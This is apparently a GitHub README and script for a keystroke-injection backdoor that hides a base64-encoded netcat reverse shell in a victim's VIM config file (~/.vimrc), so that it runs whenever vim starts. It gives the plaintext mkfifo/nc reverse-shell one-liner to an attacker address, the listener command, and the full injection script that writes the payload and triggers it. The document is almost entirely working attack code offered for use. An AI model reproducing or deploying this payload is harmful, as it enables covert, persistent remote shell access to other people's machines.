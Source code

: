 # Linux - VIM Config Netcat Backdoor

## Description

A simple backdoor that execute a base64 encoded netcat reverse shell embedd into a VIM Config file. Run VIM execute the reverse shell.

## Requirement

1. First note this script has been created and tested under Kali Linux 2021.2 as target.
2. I used a QWERTZ keyboard to do this ("ch" layout), so you may need to change that.
3. Take the netcat reverse shell of pentest monkey (or whatever) and encode it to base64 using <a href="https://www.base64encode.org/">this site</a>. Then replace the base64 string into the code. I used the netcat reverse shell bellow.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
5. Start a netcat listener in you'r attacker box.
```bash
nc -nvlp 1234
```

NOTE : I suggest to use the website to encode in base64, because trying to do it in zsh terminal on kali truncated the base64 in two line. But of course, you can do it by the way that you want since it work.

## Code

```bash
layout("CH")
typingSpeed(1, 2)
press("CTRL ALT T")
delay(1000)
type("echo '!base64 -d <<< cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTkyLjE2OC4xLjEwMyAxMjM0ID4vdG1wL2Y= | sh' > ~/.vimrc")
press("ENTER")
delay(1000)
type("exit")
delay(1000)
press("ALT F2")
delay(1000)
type("vim wootwoot")
press("ENTER")
```
